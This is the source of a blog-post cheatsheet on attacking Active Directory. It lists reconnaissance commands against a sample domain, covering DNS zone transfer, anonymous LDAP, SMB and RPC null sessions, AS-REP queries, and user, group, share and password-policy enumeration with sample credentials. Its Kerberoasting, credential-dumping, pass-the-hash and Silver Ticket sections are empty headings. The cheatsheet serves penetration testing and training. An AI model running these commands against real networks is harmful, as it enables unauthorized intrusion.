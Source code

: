```yaml
---
layout: post
title:  Attacking Active Directory Cheatsheet
description: Cheatsheet for Attacking Active Directory
date:   2024-11-01 01:00:00 +0300
image:  '/images/10000.jpg'
tags:   [Cheatsheets, Tools, Active-Directory, Active-Directory-Enumeration, SMB, Kerberoasting, AS-REP-Roasting, DCSync, Silver-Ticket, ACLs, MSSQL, Credential-Dumping, Credential-Hunting]
---
```

### Uncredentialed Enumeration and Attacks
```shell
# DNS Zone Transfer
dig @172.16.150.10 AXFR vorkharium.com

# LDAP Anonymous Session Dump
ldapsearch -x -H ldap://172.16.150.10 -b "dc=vorkharium,dc=com"

# No-PreAuth Kerberos without Username
impacket-GetNPUsers vorkharium.com/ -dc-ip 172.16.150.10

# SMB Null Session with smbclient
smbclient -L 172.16.150.10 -N
smbclient -N -L //172.16.150.10
smbclient --no-pass -L //172.16.150.10
smbclient //172.16.150.10/Public -N
smbclient -U '%' -N \\\\172.16.150.10\\Public

# SMB Null Session with other tools
smbmap -H 172.16.150.10 -P 445
nxc smb 172.16.150.10 --shares -u 'guest' -p ''
crackmapexec smb 172.16.150.10 -u '' -p '' --shares
impacket-smbclient vorkharium.com/'':''@172.16.150.10

# RPC Null Session
rpcclient 172.16.150.10 -N
rpcclient -U "" -N 172.16.150.10
rpcclient -U="" 172.16.150.10

# RPC Commands
querydispinfo
enumdomusers
enumdomgroups
queryuser johnwick

# Command to get users and put them in users_rpc.txt
rpcclient -U "" 172.16.150.10 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users_rpc.txt

# impacket-rpcdump
impacket-rpcdump -port 135 vorkharium.com/'':''@172.16.150.10

# enum4linux
enum4linux -U 172.16.150.10

```
### Domain Password Policy Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u 'vivi' -p 'Thungada2000' --pass-pol
crackmapexec smb 172.16.150.10 -u 'tidus' -p 'ToZanarkand2001' --pass-pol

# enum4linux
enum4linux -U 172.16.150.10 # Without credentials
enum4linux -u john -p Cyberpunk2077 -U 172.16.150.10

# CMD and PowerShell
net accounts
net user john /domain

# PowerShell (Some require AD Module to be installed)
Get-ADDefaultDomainPasswordPolicy
(Get-ADDomain).DefaultPasswordPolicy
Get-WmiObject -Class Win32_NetworkLoginProfile | Select-Object -Property Name, PasswordExpirationDate
```
### Domain Users Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --users
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --users

# With impacket-GetADUsers
impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!'

# My custom way of creating a list of domain_users.txt list with one command
impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!' | awk 'NR>3 {print $1}' >> domain_users.txt

# LDAP
ldapsearch -x -H ldap://172.16.150.10 -D "john@vorkharium.com" -w 'Password123!' -b "dc=vorkharium,dc=com" "(objectClass=user)" sAMAccountName

# RPC
rpcclient -U 'john%Password123!' 172.16.150.10 -c "enumdomusers"

# enum4linux
enum4linux -u john -p 'Password123!' 172.16.150.10

# PowerView.ps1
Import-Module .\PowerView.ps1
Get-NetUser

# PowerShell (AD Module)
Get-ADUser -Filter * -Property SamAccountName
Get-ADUser -Filter * -Server 172.16.150.10 -Property SamAccountName

```
### Groups Enumeration
```shell
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --groups
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --groups

# CMD and PowerShell
# Domain groups
net group /domain
net group "Domain Admins" /domain # Specifying a domain group

# Local groups
net localgroup
net localgroup Administrators

# Current User groups
whoami /groups

# PowerShell (Some require AD Module to be installed)
Get-ADGroup -Filter *
Get-ADGroup -Filter *
Get-ADGroupMember -Identity "Administrators"
Get-WmiObject -Class Win32_Group | Select-Object Name, Domain
Get-WmiObject -Class Win32_Group -ComputerName 172.16.150.10

# PowerShell Local Groups
Get-LocalGroup
Get-LocalGroupMember -Group "Administrators"
```
### SMB Shares Enumeration and Access
```shell
# Enumeration
# NetExec and CrackMapExec
nxc smb 172.16.150.10 -u john -p 'Password123!' --shares
crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --shares

# CMD and PowerShell
net view \\172.16.150.10

# enum4linux
enum4linux -S 172.16.150.10

# Connection
smbclient //172.16.150.10/Public -U john
impacket-smbclient vorkharium.com/john:'Password123!'@172.16.150.10

```
### RPC Enumeration and Access
```shell

```
### GPO cPassword
```shell

```
### Password Spraying
```shell

```
### Local PowerShell Enumeration
```shell

```
### Local Credential Hunting
```shell

```
### Runas and RunasCs.exe
```shell

```
### BloodHound, SharpHound.exe, bloodhound-python
```shell

```
### PowerView.ps1
```shell

```
### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
```shell

```
### Evil-WinRM - Access WinRM with Password or Pass-the-Hash
```shell

```
### xfreerdp - Access RDP with Password or Pass-the-Hash
```shell

```
### Kerberoasting with Impacket
```shell

```
### Kerberoasting with Rubeus.exe
```shell

```
### AS-REP Roasting with Impacket
```shell

```
### Remote Credential Dumping with Impacket and NetExec
```shell

```
### Local Credential Dumping with Mimikatz and Impacket
```shell

```
### Silver Ticket
```shell

```
### ACLs
```shell

```
### MSSQL to gain Shell
```shell

```